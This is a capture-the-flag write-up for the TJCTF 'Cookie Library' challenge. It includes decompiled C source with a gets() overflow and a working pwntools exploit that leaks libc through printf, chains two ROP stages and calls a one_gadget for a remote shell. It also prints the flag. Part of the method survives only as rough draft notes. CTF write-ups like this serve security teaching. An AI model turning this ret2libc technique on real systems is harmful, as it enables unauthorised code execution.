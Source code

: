 # tjctf: binary

## Cookie Library [90]

Written by KyleForkBomb

_My friend loves cookies. In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something._

`nc p1.tjctf.org 8010`

## An Exercise in Futility

```sh
$ ./cookie_library
Check out all these cookies!
  - snickerdoodles
  ... (25 lines omitted)
  - white chocolate macadamia nut cookies
Which is the most tasty?
tassies
I'm sorry but we can't be friends anymore
```

Unflattery aside, if we want to guess the right cookie, we'll have to look at the source (minified):

```c
char *cookies[] = {"snickerdoodles", ... };
int main() {
  char s1[76]; // [rsp+0h] [rbp-50h]
  int i; // [rsp+4Ch] [rbp-4h]

  srand(time(0));
  puts("Check out all these cookies!");
  for (i = 0; i <= 27; i++)
    printf("  - %s\n", cookies[i]);
  puts("Which is the most tasty?");
  gets(s1);
  if (!strcasecmp(s1, cookies[rand()%28]))
    puts("Wow, me too!");
  else
    puts("I'm sorry but we can't be friends anymore");
}

Simple enough. We'll use `ctypes` to simulate `rand()`, taking our system's clock as the right seed for `srand()`. Putting it together into a pwntools script:
```python
from pwn import *
from ctypes import CDLL
lib = CDLL('libc.so.6')
lib.srand(lib.time(0))
cookie = lib.rand()%28
r = remote('p1.tjctf.org', 8010)
for i in range(cookie+1): r.recvline()
cookie = r.recvline()[4:-1]
r.sendlineafter('?\n', cookie)
r.interactive()
```
We can test it out, and surely enough, we'll get past the `if()` check:
<p align="center">
<img src="wow.png">
<br><i>Wow.</i>
</p>
If you didn't realise during the CTF, here's the ticket: _that was completely useless_

## _Library_'s in the name

As its namesake, _Cookie Library_ is a `ret2libc` challenge, that unfortunately has no libc version given.

-srand()/rand() is a lie; does nothing
 -can describe how you'd do it with ctypes.CDLL
-gets() BOF -> run gadgets
 -important: rdi (arg1), rsi (arg2), rsp (for 2nd ROP)
-printf %s -> leak address contents
 -"%s" from .rodata, set to rdi
 -address as rsi
 -used to get libc addresses
-gadgets and gets() -> multiple ROPs
 -use scratch space at .data for known-address
 -rdi=.data and gets() to write the ROP
 -rsp gadget to shift to 2nd ROP chain
-libc leak -> one_gadget
 -rsp overwrite has secondary purpose: fulfil one_gadget [rsp+0x40] == NULL requirement
 -ez pwn

<p align="center">
<img src="libcleak.png">
</p>

<p align="center">
<img src="shell.png">
</p>

## flag

`tjctf{c00ki3_yum_yum_mmMmMMmMMmmMm}`

## code

```python
from pwn import *
from sys import argv
r = remote('p1.tjctf.org', 8010)
#constants
e = ELF('./cookie_library.o')
r_offset = cyclic_find('waaa')  #empirical value
pop_rdi = 0x400933      #from ropper or otherwise
pop_rsi_trash = 0x400931
pop_rsp_and_3 = 0x40092d#scratch space
one_gadget = 0x4f322    #$ one_gadget libc-database/db/libc6...
s_fmt = e.symbols['_IO_stdin_used'] + e.section('.rodata').index('%s')
#helper functions
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_trash, rsi, 0]
leak = lambda got_func: rdi_rsi(s_fmt, e.got[got_func]) + [e.plt['printf']]
#add args when running to test this part of the code
if len(argv) > 1: #LEAKED: libc6_2.27-3ubuntu1_amd64 
    rop = leak('rand') + leak('srand')
    r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
    print('addr of rand:  ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c173a0
    r.recvline()
    print('addr of srand: ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c16bb0
else:
    #rop chain 1: get libc addr and write/jmpto a new ropchain
    rop = leak('rand')
    rop+= [pop_rdi, e.symbols['__data_start'], e.symbols['gets']]
    rop+= [pop_rsp_and_3, e.symbols['__data_start']]
    r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
    r.recvline() #trashline
    rand = u64(r.recv(6) + '\0'*2)  #libc of rand()
    one_gadget += rand - 0x443a0
    #rop chain 2: one_gadget, requiring [rsp+0x40] == NULL
    rop2 = [0]*3
    rop2+= [one_gadget]
    r.sendlineafter('\n', ''.join(map(p64,rop2)) + 0x60*'\0')
    r.interactive() #shell
```
